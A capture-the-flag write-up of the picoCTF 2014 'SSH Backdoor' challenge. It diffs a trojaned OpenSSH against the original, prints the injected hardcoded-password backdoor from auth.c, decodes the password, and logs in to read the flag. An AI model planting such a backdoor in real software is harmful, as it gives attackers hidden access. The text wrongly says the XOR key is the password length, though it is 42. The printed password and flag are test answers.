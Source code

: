 ```yaml
---
layout: post
title: "picoCTF 2014 SSH Backdoor"
date: 2014-11-07 20:00:18 -0500
author: [superkojiman]
comments: true
categories: [picoctf]
---
```


### Solved by superkojiman

SSH Backdoor is a 100 point forensics challenge. 

> Some hackers have broken into my server backdoor.picoctf.com and locked my user out (my username is jon). I need to retrieve the flag.txt file from my home directory. 
The last thing we noticed in out network logs show is the attacker downloading this. Can you figure out a way to get back into my account?

The network logs showed a download of [openssh-6.7p1-evil.tar.gz](https://picoctf.com/problem-static/forensics/SSHBackdoor/openssh-6.7p1-evil.tar.gz). The hint for this challenge suggests that a backdoor was left in this version of OpenSSH. So if we can find the backdoor, we can figure out how to login to the server. I downloaded the backdoored OpenSSH, and also grabbed the original clean version from [http://openbsd.cs.toronto.edu/pub/OpenBSD/OpenSSH/portable/openssh-6.7p1.tar.gz](here). I unpacked the backdoored version into a directory called evil, and the clean version into a directory called orig:

```
$ mkdir evil; tar xvzf openssh-6.7p1-evil.tar.gz -C evil
$ mkdir orig; tar xvzf openssh-6.7p1 -C orig 
```

Now let's check to see what files are different. Quickest way was to just use the cmp command:

```
$ for i in evil/openssh-6.7p1/*; do if [[ ! -d $i ]]; then cmp $i orig/openssh-6.7p1/`basename $i`; fi  ;done
evil/openssh-6.7p1/auth-passwd.c orig/openssh-6.7p1/auth-passwd.c differ: char 3621, line 115
cmp: EOF on orig/openssh-6.7p1/auth.c
evil/openssh-6.7p1/auth.h orig/openssh-6.7p1/auth.h differ: char 7091, line 214
```

Looks like auth.c has been modified in the backdoored version. Let's have a look at the changes: 

```
$ diff evil/openssh-6.7p1/auth.c orig/openssh-6.7p1/auth.c
777,794d776
<
< static int frobcmp(const char *chk, const char *str) {
<   int rc = 0;
<   size_t len = strlen(str);
<   char *s = xstrdup(str);
<   memfrob(s, len);
<
<   if (strcmp(chk, s) == 0) {
<       rc = 1;
<   }
<
<   free(s);
<   return rc;
< }
<
< int check_password(const char *password) {
<   return frobcmp("CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMY", password);
< }
```

So the backdoor is pretty simple. It takes the user's password, calls memfrob() on it, and if it matches the string "CGCDSE_XGKIBCDOY\^OKFCDMSE_XLFKMY", then it lets the user in. What does memfrob() do? According to its manual page:

> The memfrob() function encrypts the first n bytes of the memory area s by exclusive-ORing each character with the number 42.  The effect can be reversed by using memfrob() on the encrypted memory area.

So it just XORs the password using a key, in this case, the length of the password. To decrypt the password "CGCDSE_XGKIBCDOY\^OKFCDMSE_XLFKMY", we just need to XOR it with its length. The following C code does just that:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
    char *s = "CGCDSE_XGKIBCDOY^OKFCDMSE_XLFKMY";
    char *t = strdup(s); 
    size_t len = strlen(s); 

    memfrob(t, len);
    printf("%s\n", t); 
    return 0; 
}
```

We compile and run it, and it gives us the password:

```text
$ gcc decrypt.c -o decrypt
$ ./decrypt 
iminyourmachinestealingyourflags
```

Let's try to login:

```text
$ ssh jon@backdoor.picoctf.com
The authenticity of host 'backdoor.picoctf.com (23.21.109.77)' can't be established.
RSA key fingerprint is 69:2c:9a:4c:64:f3:e3:2a:0a:d9:b1:9a:59:de:32:71.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'backdoor.picoctf.com,23.21.109.77' (RSA) to the list of known hosts.
jon@backdoor.picoctf.com's password:
Last login: Sat Nov  1 20:23:59 2014 from 184.72.219.127
jon@ip-10-45-162-116:~$ ls
flag.txt
jon@ip-10-45-162-116:~$ cat flag.txt
ssshhhhh_theres_a_backdoor
```

Success! We logged in, found a flag.txt, and read its contents. The flag is **ssshhhhh_theres_a_backdoor**
